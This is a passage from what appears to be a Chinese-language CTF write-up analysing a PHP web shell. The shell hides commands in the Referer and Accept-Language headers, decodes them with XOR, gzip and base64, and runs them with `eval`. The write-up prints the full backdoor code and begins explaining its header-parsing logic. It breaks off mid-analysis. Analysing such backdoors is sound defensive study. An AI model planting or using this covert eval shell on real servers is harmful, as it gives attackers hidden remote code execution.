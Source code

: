 ```php
if($rr&&$ra)
{
    $u=parse_url($rr);
    parse_str($u["query"],$q);
    $q=array_values($q);
    preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);
    if($q&&$m)
    {
        @session_start();
        $s=&$_SESSION;
        $i=$m[1][0].$m[1][1];
        $h=strtolower(substr(md5($i.$kh),0,3));
        $f=strtolower(substr(md5($i.$kf),0,3));
        $p="";
        for($z=1; $z<count($m[1]); $z++)$p.=$q[$m[2][$z]];
        if(strpos($p,$h)===0)
        {
            $s[$i]="";
            $p=substr($p,3);
        }
        if(array_key_exists($i,$s))
        {
            $s[$i].=$p;
            $e=strpos($s[$i],$f);
            if($e)
            {
                $k=$kh.$kf;
                ob_start();
                //！
                @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),substr($s[$i],0,$e))),$k)));
                $o=ob_get_contents();
                ob_end_clean();
                $d=base64_encode(x(gzcompress($o),$k));
                print("<$k>$d</$k>");
                @session_destroy();
            }
        }
    }
}
```

代码的重点在于 `Accept-Language`，`Referer` 和感叹号所在的行，因为可以用 `eval` 执行代码。

首先 `x` 函数显然是循环异或。随后仔细阅读 `preg_match_all` 的正则表达式，发现它将 `Accept-Language` 分成了 3 部分，`m[0]` 存每种语言的完整字符串，`m[1]` 存首字母，`m[2]` 存语言权重小数点后的数字。

> Accept-Language 格式：`语言;q=权重`，例如 `en-US;q=0.5`

而 `$i` 取的是 `$m[1][0].$m[1][1]`，也就是前两种语言的首字母。`$h` 和 `$f` 不难计算，我们假设输入的语言是 `zh-CN,zh`，那么 `$i` 就是 `zz`，计算得到 `$h` 为 `675`，`$f` 为 `a3e`。

不过下面的 `for` 循环有点绕：
